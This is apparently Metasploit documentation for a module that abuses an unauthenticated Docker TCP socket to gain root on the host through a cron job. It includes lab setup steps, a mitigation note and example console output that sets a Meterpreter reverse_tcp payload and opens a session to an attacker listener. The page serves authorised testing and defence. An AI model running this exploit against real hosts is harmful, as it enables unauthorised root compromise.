 # Vulnerable Application
Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp
with tls but without tls-auth), an attacker can create a Docker
container with the '/' path mounted with read/write permissions on the
host server that is running the Docker container. As the Docker 
container executes command as uid 0 it is honored by the host operating
system allowing the attacker to edit/create files owned by root. This
exploit abuses this to creates a cron job in the '/etc/cron.d/' path of
the host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Docker Engine
By default, Docker runs via a non-networked unix socket. It can also
optionally communicate using a tcp socket.

> Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with access
to that port has full Docker access; so it is not advisable on an open
network. -- [from docs.docker.com][1]

This module was tested with Debian 9 and CentOS 7 as the host operating
system and with Docker CE 17.06.0-ce and Docker Engine 1.13.1.

### Install Debian 9
First [install Debian 9][2] with default task selection. This includes
the "*standard system utilities*".

### Install Docker
Then install a supported version of [Docker on Debian system][3].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Activate unprotected tcp socket
Once Docker is installed, customize the Docker daemon options and add
the tcp socket `-H tcp://0.0.0.0:2375` option. On Debian override the
settings from `/lib/systemd/system/docker.service` with a new file
`/etc/systemd/system/docker.service`.

Further information: [docker systemd][4] and [docker daemon options][5]. 

```bash
# TL;DR
echo "[Service]
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375" | tee /etc/systemd/system/docker.service
systemctl daemon-reload
systemctl restart docker
curl http://127.0.0.1:2375/_ping ; echo
OK
```

### Mitigation

[Disable][5] or [protect][6] the Docker tcp socket.

[User namespaces][7] did **not** protect against this.

# Exploitation
This module is designed for the attacker to leverage, creation of a
Docker container with out authentication through the Docker tcp socket
to gain root access to the hosting server of the Docker container.

## Options
- DOCKERIMAGE is the locally or from hub.docker.com available image you are wanting to have Docker to deploy for this exploit.
- CONTAINER_ID if you want to have a human readable name for your container, else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/docker_daemon_tcp
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a Docker container and it successfully runs
- [ ] After a minute a session should be opened from the Docker server

## Example Output
```
msf > use exploit/linux/http/docker_daemon_tcp
msf exploit(docker_daemon_tcp) > set RHOST 192.168.66.23
RHOST => 192.168.66.23
msf exploit(docker_daemon_tcp) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(docker_daemon_tcp) > set LHOST 192.168.66.10
LHOST => 192.168.66.10
msf exploit(docker_daemon_tcp) > set VERBOSE true
VERBOSE => true
msf exploit(docker_daemon_tcp) > check
[+] 192.168.66.23:2375 The target is vulnerable.
msf exploit(docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.66.10:4444
[*] Check if images exist on the target host
[*] Image is not available on the target host
[*] Trying to pulling image from docker registry, this may take a while
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Waiting until the docker container stopped
[*] The docker container has been stopped, now trying to remove it
[*] Sending stage (2878936 bytes) to 192.168.66.23
[*] Meterpreter session 1 opened (192.168.66.10:4444 -> 192.168.66.23:35050) at 2017-07-25 14:03:02 +0200
[+] Deleted /etc/cron.d/lVoepNpy
[+] Deleted /tmp/poasDIuZ


meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```

[1]:https://docs.docker.com/engine/reference/commandline/dockerd/#bind-docker-to-another-hostport-or-a-unix-socket
[2]:https://www.debian.org/releases/stretch/amd64/index.html.en
[3]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[4]:https://docs.docker.com/engine/admin/systemd/
[5]:https://docs.docker.com/engine/reference/commandline/dockerd/#options
[6]:https://docs.docker.com/engine/security/https/
[7]:https://docs.docker.com/engine/security/userns-remap/#disable-namespace-remapping-for-a-container

